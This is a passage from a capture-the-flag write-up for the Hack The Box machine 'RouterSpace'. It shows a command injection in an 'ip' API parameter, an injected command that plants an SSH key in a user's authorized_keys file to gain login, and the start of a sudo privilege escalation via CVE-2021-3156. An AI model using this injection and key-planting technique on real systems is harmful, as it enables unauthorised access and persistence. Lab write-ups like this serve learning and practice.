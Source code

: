 **Burp Proxy Settings**:
![[Pasted image 20220328140155.png]]


We are now able to capture the `Check Status` API call in Burp.
![[Pasted image 20220328140056.png]]


-------------

### Step 3
We have one data parameter to play with, ``ip``, and we quickly find that it's not sanitized and vulnerable for command injection.

![[Pasted image 20220328141018.png]]

Generate a new SSH key, inject it and login as user Paul. Grab user.txt.
```bash
┌──(void㉿void)-[/htb/routerspace]
└─$ ssh-keygen -t rsa -b 4096 -f paul-id_rsa

┌──(void㉿void)-[/htb/routerspace]
└─$ cat paul-id_rsa.pub  
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAACAQC [... snip ...]

Inject the payload in Burp Repeater: 
mkdir -p /home/paul/.ssh && echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAACAQC [... snip ...]' > /home/paul/.ssh/authorized_keys

┌──(void㉿void)-[/htb/routerspace]
└─$ ssh paul@routerspace.htb -i paul-id_rsa

paul@routerspace:~$ id && cat user.txt 
uid=1001(paul) gid=1001(paul) groups=1001(paul)
e8f2d33e776f9e917eeab833f5dff7a6
```


--------------

# ROOT

### Step 1 
With some quick manual enumeration we find that the sudo version is old and vulnerable to CVE-2021-3156.

```bash
paul@routerspace:~$ sudo --version
Sudo version 1.8.31
Sudoers policy plugin version 1.8.31
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.31

paul@routerspace:~$ lsb_release -a
No LSB modules are available.
Distributor ID:	Ubuntu
Description:	Ubuntu 20.04.3 LTS
Release:	20.04
Codename:	focal

┌──(void㉿void)-[/htb/routerspace]
└─$ scp -i paul-id_rsa -rp sudo-exploit-main paul@routerspace.htb:/dev/shm                                                                                1 ⨯
```